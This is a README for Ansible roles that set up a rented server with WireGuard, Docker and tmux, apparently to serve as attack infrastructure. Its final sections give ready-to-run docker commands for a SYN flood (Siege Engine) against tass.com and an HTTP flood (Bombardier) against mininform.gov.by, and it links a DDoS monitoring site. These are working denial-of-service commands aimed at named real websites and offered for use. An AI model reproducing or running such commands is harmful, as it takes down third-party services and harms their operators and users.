 - [Important](#important)
- [Overview](#overview)
  - [Details](#details)
  - [Monitoring tools](#monitoring-tools)
- [Install](#install)
  - [Deps](#deps)
  - [Install Ansible](#install-ansible)
- [Run](#run)
  - [Digital ocean](#digital-ocean)
- [Use](#use)
  - [Wireguard](#wireguard)
  - [Use tools/get shell](#use-toolsget-shell)
  - [Siege Engine](#siege-engine)
  - [Bombardier](#bombardier)

# Important
* Tested on Ubuntu 20.04
* For now supported SSH keys only
* PRs are welcome

# Overview
Sometimes we may need good internet channel, especially since Feb 24. There may be no good internet channel or no access to the VPN. Solution to it is to set up a server with tools. All you need is to create virtual server or rent physical server 

## Details
This is a set ansible roles to install core tools on remote server
* Wireguard VPN, config will be fetched to local
* Docker
* tmux (with `screen` like rc, check `ansible/roles/wireguard/files/.tmux.conf`)

## Monitoring tools
* [Monitor](https://ddosmonitor.herokuapp.com/)
* [Geo distributed monitor](https://www.uptrends.com/tools/uptime)

# Install
## Deps
* `pip` - python package manager. Install doc can be found [here](https://www.geeksforgeeks.org/how-to-install-pip-on-windows/#:~:text=Download%20and%20Install%20pip%3A&text=Download%20the%20get%2Dpip.py,where%20the%20above%20file%20exists.&text=and%20wait%20through%20the%20installation,now%20installed%20on%20your%20system.), note, I've not tested it.
* Wireguard client, install doc can be found [here](https://www.wireguard.com/install/)
  
## Install Ansible
If you have `pip` installed, than install via pip - [reference](https://docs.ansible.com/ansible/latest/installation_guide/intro_installation.html#installing-ansible-with-pip)
In short, run 
```
python -m pip install --user ansible
```

# Run
## Digital ocean
```
cd ansible/
export a_user="root"
export a_ip="SERVER_IP"
ansible-playbook -i "${a_ip}," -u ${a_user} -b play.yaml
```

# Use
## Wireguard

## Use tools/get shell
Ensure that you have exported variables from [Run](#run) according to your hosting provider and run following
```
ssh ${a_user}@${a_ip}
```

## Siege Engine
Tool for SYN flood, [ref](https://github.com/smok-serwis/siege-engine)
```
docker run --rm -it mack/battle-tools python3 -m siege_engine 300 tass.com
```

## Bombardier
Tool for HTTP stress (we should use `--http2` because [fasthttp issue](https://github.com/codesenberg/bombardier#known-issues))
```
docker run --rm -it mack/battle-tools bombardier --http2 -c 200 -d 300s -l https://mininform.gov.by
```
